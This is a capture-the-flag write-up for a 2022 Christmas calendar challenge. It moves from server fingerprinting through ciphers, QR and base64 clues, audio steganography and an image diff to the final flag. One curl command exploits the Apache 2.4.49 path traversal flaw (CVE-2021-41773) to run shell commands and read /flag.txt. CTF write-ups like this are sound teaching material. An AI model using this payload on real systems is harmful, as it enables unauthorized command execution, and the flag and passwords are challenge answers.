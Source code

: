 
Started with exiftool on image from the website, nothing! Used whatweb on the site and it clearly shows apache 2.4.9.

```bash
┌──(toffe㉿kali)-[~/Projects/dnb-julekalender-2022/door-24/web]
└─$ whatweb -a 3 http://santasticketoffice.norwayeast.azurecontainer.io/
http://santasticketoffice.norwayeast.azurecontainer.io/ [200 OK] Apache[2.4.49], Bootstrap[4.5.2], Country[UNITED STATES][US], HTML5, HTTPServer[Unix][Apache/2.4.49 (Unix)], IP[20.100.165.5], Title[Santa's Ticket Office]
```

Quick search on exploit-db shows [CVE 2021-41773](https://www.exploit-db.com/exploits/50383). Quickly modified tested the script from exploit-db and it works. Found out by browsing `ls /` it had a flag.txt. So here is how I extracted that:

```bash
$ curl -s --path-as-is -d "echo Content-Type: text/plain; echo; cat /flag.txt" "http://santasticketoffice.norwayeast.azurecontainer.io/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh"

${...}
Nope, no flag here. Did you really think it would be this simple?
Not when Dj Oiler is involved! 
But you did find something... you managed to find this ticket:
VkJFVDovL2pvdmVlamZpZ2kuZWN6aGVwc2lkeC5ybmNjaXRjdmVlemJtYy5tZg==

Well in the mean time you can find the key for this cipher here:

 ▄▄▄▄▄▄▄   ▄ ▄▄▄▄ ▄▄▄ ▄ ▄  ▄▄▄▄▄▄▄
 █ ▄▄▄ █ ▀ ▀ ▄█▀█▀▀  ▄▄▄▄▀ █ ▄▄▄ █
 █ ███ █ ▀█▀ ▀ ▀█▄█▄▄█ ▀██ █ ███ █
 █▄▄▄▄▄█ █▀▄▀█ ▄ ▄ █ █ █ █ █▄▄▄▄▄█
 ▄▄▄▄▄ ▄▄▄█▀█  ▀ █▄▀ ▀▀█▀█▄ ▄ ▄ ▄ 
  ▄▀██▄▄ █ █ ▀███▄▀█▀▀▀▀▀ ▀▀  ▄▀█▀
  ▄▄▄  ▄▀▀▄▄ █▀▄█ ▄ █▀▀▄ ▄▄▀█▄▄▀  
 █ ▄▀▄▄▄  ▀▄▄▄  ▀▀ ▀▀▀█▄▀  █▄▄  █▀
 ▀▀ █▄█▄███ █  ▀ █▄▀█▀▀▀▀ █ ▄█ ▀▄ 
   ▀▄ █▄▄ ▀▄ ▀███▄ ▀▀▄ ▄▀▄▄▀  █ █▀
  ▀▄▀▀█▄█▀█  █▀▄█ ▄▀▀▄▀▄█▄█ ██ ▀▄ 
 █ █▄▀▄▄▀██▄▄▄  ▀▀ ▀▀█▀█▀▀▀▀▄▄█ █▀
 █ █▄ ▄▄█▀█▄█  ▀ ▀▄ ▀█▀█ ████▄▀▀ ▄
 ▄▄▄▄▄▄▄ █▄▀ ▀███▄█▀▀█▄ ██ ▄ █ ▄▄▀
 █ ▄▄▄ █ ▄▄  █▀▄▀▄▄▀█▀▀█ █▄▄▄██▀█ 
 █ ███ █ █ ▄▄▄  ▄███▀▀ ▄   ▄▀▀▀█▀▀
 █▄▄▄▄▄█ ██▄█  ▀█▀▄  ▀▀▄█▄▀██▀▀▀▄ 


Last letter i R...
```

Base64 data: `VBET://joveejfigi.eczhepsidx.rnccitcveezbmc.mf`
QR Code: `https://htbbinaries.z1.web.core.windows.net/hiddenkey`

Started decoding the base64 data and as I knew the url format I easily guessed the first 5 letters of the subdomain to be `santas`.

```
VBET://joveejfigi.eczhepsidx.rnccitcveezbmc.mf
http://----------.norwayeast.azurecontainer.io
       santas....

j = s
nve = nta
so.. santas <4 letters>
```

Starting my DNS hammer, while searching for clues on what it might be on the websites.

I came as far as: `santsabdjt.norwayeast.azurecontainer.io` when it suddenly came to me, the title invites us to "santas rave".. So maybe that is all? I tested it and got a hit!

Edit: Turns out to be Vigenere Decode using keyword: oiler, probably extractable from the hiddenkey as it hints with the QR code. But with so many known variables it is also easier to guess.

Whatweb on santasrave:

```
┌──(toffe㉿kali)-[~/Projects/dnb-julekalender-2022/door-24]
└─$ whatweb -a 3 http://santasrave.norwayeast.azurecontainer.io/
http://santasrave.norwayeast.azurecontainer.io/ [200 OK] Country[UNITED STATES][US], HTML5, IP[20.100.161.219], Title[Welcome to Santas Rave!], X-UA-Compatible[IE=edge]
```

Alt text on image says: `find djoilersmonsterbash.cue and .bin files`
Comment below: `Then maybe Santa can tell you where to go next?`

Santa tells me:
```
Author                          : DrCiRCUiT enjoys the key CHRISTMAS
Artist                          : OUVFQWleXjY9PTpARURBMkRESEBDNTc6PzU2Q10/QENIMko2MkRFXTJLRkM2NEA/RTI6PzZDXTpA
Comment                         : 64->47->www`
```

Gobuster quickly found /promo on the website where I found the .cue and .bin files. Used PowerISO to extract the wav files which. Exiftool or steghide (with password "CHRISTMAS") did not work. So started soon enough on the santa image. URL was base64 decoded, then rot47 and I got the following url: `http://elliotspasswordfinder.norwayeast.azurecontainer.io`

10 tracks, 10 keys, after a while I build a quick bruteforce script as I had nothing to go on here. I tried different words, from the website. Lots of different stuff, suddenly I had a hit on our main guy DJ Oiler! "oiler" was the 7th key. So I tried different people I know. Even WCH. Nothing.

With a loss of stuff to try I tried the names of all the songs. And here we go! 

```
Testing: crypto
Testing: stego
Testing: constant
Testing: pain
1 - pain = success
Testing: breakpoint
2 - breakpoint = success
Testing: dancing
Testing: meltdown
Testing: overflow
Testing: my
Testing: buffer
4 - buffer = success
Testing: pop
Testing: my
Testing: stack
5 - stack = success
Testing: hardware
6 - hardware = success
Testing: problem
Testing: oct31
Testing: catch
Testing: my
Testing: exception
8 - exception = success
Testing: hackers
Testing: assemble
9 - assemble = success
Testing: drcircuit
Testing: and
Testing: the
Testing: stack
5 - stack = success
Testing: tracers
Testing: ctf
```

1, 2, 4, 5, 6, 8 and 9 all hits. So looking at why number 3 fails. Only 1 word. So I listen to it and hear the following 3 words `meltdown initiated execute` and to my surprise it hits on execute! Now I continue doing that on all of the missing, taking the lyrics and after a while I got them all.

Pressing all the keys and open them one by one reveals after a while the password: `GiveMyRegardsToElliott!`.

Googling "hide files in wav" shows the second hit: [The Hacks of Mr. Robot: How to Hide Data in Audio Files](https://null-byte.wonderhowto.com/how-to/hacks-mr-robot-hide-data-audio-files-0164136/) which talks about "DeepSound"

Quickly opening track 1 asked for a password, pasted in "GiveMyRegardsToElliott!" and got a file. Same for 2, nothing for 3-9 but 10 asked for password but did not work.

Looked at the two hidden files I found called "hidden-1.png" and "hidden-2.png", exittool shows a comment on the first file `Split the difference...`. So I open up a diff checker [Image Diff Checker](https://www.diffchecker.com/image-compare/) and got this.

![image](hidden-diff.png)

`${M3RRY_C4RI57M@5_FROM_DNB_N3W73C4_l@B!}`